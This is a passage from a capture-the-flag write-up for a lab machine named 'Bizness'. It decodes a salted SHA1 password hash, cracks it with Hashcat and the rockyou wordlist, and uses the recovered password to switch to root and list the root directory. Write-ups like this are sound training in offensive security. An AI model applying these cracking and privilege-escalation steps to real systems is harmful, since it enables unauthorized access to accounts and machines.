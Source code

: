 When I googled the `encodeBase64URLSafeString`, found that it's replaces `+` and `/` with `-` and `_` respectively

### Decoding and Cracking the Password

I converted to hex, So we can crack using the Hashcat, and `d` is the salt.

```bash
$ echo -n "uP0_QaVBpDWFeo8-dRzDqRwXQ2I" | tr '_-' '/+' | base64 -d | xxd -p
b8fd3f41a541a435857a8f3e751cc3a91c174362
```

I ran the Hashcat to crack the password

```bash
hashcat --force -m 120 b8fd3f41a541a435857a8f3e751cc3a91c174362:d /usr/share/wordlists/rockyou.txt
```

Hashcat cracked the password: `monkeybizness` 

## Privilege Escalation to Root

With the password `monkeybizness`, I can `su root` 

```bash
ofbiz@bizness:~$ su root 
Password: 
root@bizness:/home/ofbiz# whoami
root
root@bizness:/home/ofbiz# ls -la /root/
total 28
drwx------  4 root root 4096 May 24 04:33 .
drwxr-xr-x 18 root root 4096 Mar 27 11:05 ..
lrwxrwxrwx  1 root root    9 Dec 16 05:21 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  7 root root 4096 Dec 21 09:15 .gradle
drwxr-xr-x  3 root root 4096 Dec 21 09:15 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 May 24 04:33 root.txt
root@bizness:/home/ofbiz# 
```

Get the `root.txt` flag
